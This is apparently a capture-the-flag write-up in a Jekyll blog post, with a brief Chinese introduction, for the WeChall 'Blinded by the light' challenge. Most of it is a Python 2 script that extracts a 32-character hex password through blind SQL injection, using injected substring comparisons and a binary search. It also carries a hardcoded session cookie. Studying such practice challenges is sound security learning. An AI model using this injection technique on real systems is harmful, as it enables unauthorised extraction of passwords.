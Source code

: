 ```yaml
---
title: Blinded by the light
author: rk700
layout: post
categories:
  - writeup
tags:
  - mysql
  - wechall
---
```

<http://www.wechall.net/challenge/blind_light/index.php>  
这道题是盲注，32位的HEX，正好用了128次query

下面是python代码

{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2

def makePayload(statement):
    return "' or substring(password, %d, 1)%s'%s" % (statement[0], statement[1], statement[2])
    
def checkResponse(response):
    return response.find("Welcome back") > 0

def doAssert(statement):
    url = 'http://www.wechall.net/challenge/blind_light/index.php'
    values = {'injection':makePayload(statement),'inject':'Inject'}
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7374566-11403-7iblKzppaCoukyl1')
    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)
 
if __name__ == "__main__":
    alphalist = "0123456789ABCDEF"
    result = []
    for idx in range(1,33):
        start = 0
        end = 16 #[start, end)
        while (start < end):
            #print("[%d, %d)" % (start, end))
            if (end - start == 1):
                result.append(alphalist[start])
                break
            else:
                middle = (start + end)/2
                if(doAssert([idx, '<', alphalist[middle]])):
                    end = middle
                else:
                    start = middle
    print ''.join(result)
{% endhighlight %}